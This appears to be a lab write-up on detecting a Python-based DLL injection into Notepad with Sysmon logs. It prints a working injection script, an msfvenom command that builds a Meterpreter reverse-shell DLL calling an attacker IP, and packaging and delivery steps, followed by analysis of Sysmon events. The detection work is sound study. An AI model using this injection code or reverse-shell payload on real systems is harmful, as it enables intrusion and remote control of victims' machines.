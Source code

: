 # Detection of Simple DLL Injection with Sysmon

## Introduction

In this lab, I infected a virtual Windows machine with an executable containing a simple payload.  
The executable was written in Python and its objective was to inject a DLL into a running Windows service (Notepad).  
The primary goal was to detect signs of this malicious behavior through Sysmon logs and evaluate how native Windows defenses respond.

**Tools Used**: Sysmon, Metasploit, Wine, Kali Linux, Event Viewer, Python, PyInstaller, Oracle VirtualBox

---

## Malware Creation and Delivery

### Creating the Injection Script

To perform DLL injection, I used a simple Python script found online.

```python
import ctypes
import ctypes.wintypes as wintypes
import psutil

# Initialize kernel32
kernel32 = ctypes.WinDLL("kernel32.dll", use_last_error=True)

# Constants
PROCESS_ALL_ACCESS = 0x1F0FFF
MEM_COMMIT = 0x00001000
PAGE_READWRITE = 0x04

# Function to get notepad's PID
def get_notepad_pid():
    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'].lower() == 'notepad.exe':
            return proc.info['pid']
    return None

# Get notepad's PID
pid = get_notepad_pid()
if not pid:
    print("Notepad not found")
    exit(1)

# Path to payload
dll_path = "test2.dll"

# Open target process
h_process = kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, pid)

# Allocate memory in target process
arg_address = kernel32.VirtualAllocEx(h_process, 0, len(dll_path) + 1, MEM_COMMIT, PAGE_READWRITE)

# Write DLL path to allocated memory
written = ctypes.c_size_t(0)
kernel32.WriteProcessMemory(h_process, arg_address, dll_path.encode('utf-8'), len(dll_path) + 1, ctypes.byref(written))

# Get LoadLibraryA address
h_kernel32 = kernel32.GetModuleHandleA(b'kernel32.dll')
load_library = kernel32.GetProcAddress(h_kernel32, b'LoadLibraryA')

# Create remote thread in target process
kernel32.CreateRemoteThread(h_process, None, 0, load_library, arg_address, 0, None)
```

The PID of the process changes every time that a new process is run, so it was necessary to insert this 
function to find the PID of the notepad automatically:

```python
def get_notepad_pid():
   for proc in psutil.process_iter(['pid', 'name']):
       if proc.info['name'].lower() == 'notepad.exe':
          return proc.info['pid']
   return None

pid = get_notepad_pid()
```

### Embedding the Payload

Was generated the malicious DLL payload using Metasploit's `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f dll > test.dll
```

### Creating the Executable

Initially, I used PyInstaller to compile the Python script into an executable. However, running the resulting binary on the target machine failed due to environment compatibility issues.  
To solve this, I used **Wine** on Kali Linux to simulate a Windows environment and generate a compatible executable.


1. **Steps**

```bash
wget https://www.python.org/ftp/python/3.10.9/python-3.10.9-amd64.exe
wine python-3.10.9-amd64.exe
wine cmd
python -m pip install pyinstaller
pyinstaller --onefile --add-data "payload.dll;." injection.py
```

### Delivery Method

To deliver the payload, I used a simple Python HTTP server on the attacker machine and set up a listener.

```bash
python3 -m http.server 8000
```

![Image](https://github.com/user-attachments/assets/f0aec13c-2cd1-43fc-a262-b08449a5e8a7)

---

## Execution on the Target Machine and Sysmon Log Analysis

Despite disabling basic Windows Defender features, getting a stable reverse connection was challenging. Still, Sysmon successfully logged multiple indicators of compromise.

![Image](https://github.com/user-attachments/assets/0255d64d-235d-4f04-9724-b835fa43fb43)

---

## Log Analysis

### Event ID 1: Process Creation

```
UtcTime: 2025-05-08 13:21:20.798
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
ParentImage: C:\Windows\explorer.exe
Hashes: MD5=..., SHA256=...
```

**Explanation**: Event ID 1 logs every process creation. Although not inherently malicious, indicators like missing file metadata and hash verification help identify suspicious files.  
The parent process being `explorer.exe` suggests user interaction (manual execution).

### Event ID 13: Registry Modification

```
UtcTime: 2025-05-08 13:21:22.977
Image: C:\Windows\system32\svchost.exe
TargetObject: HKU\...\AppCompatFlags\Compatibility Assistant\Store\...injection.exe
```

**Explanation**: This shows `svchost.exe` modifying the registry to store information about the executed file.  
Windows uses this Compatibility Assistant key when unusual behavior is detected.

### Event ID 5: Process Terminated

```
UtcTime: 2025-05-08 13:21:20.958
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
```

**Explanation**: The process was terminated shortly after execution, possibly due to Windows defenses or a code error.

![Image](https://github.com/user-attachments/assets/fdcbacff-886d-4848-aa5e-cea5c3c700f4)

### Event ID 3: Network Connection

```
UtcTime: 2025-05-08 17:16:34.953
ProcessId: 5104
Image: C:\Users\home\Downloads\final.exe
DestinationIp: 192.168.1.201
DestinationPort: 4444
```

**Explanation**: This log confirms the reverse shell behavior. `final.exe` attempts to connect to the attacker's listener, typically used by tools like Metasploit.

---

## Conclusion

This lab demonstrates that even basic malware leaves detectable traces in Sysmon logs.  
Events such as process creation, registry modification, and network activity are powerful indicators for defenders.  
Despite some execution challenges, the experiment shows the effectiveness of endpoint monitoring and highlights the importance of log analysis for incident detection.
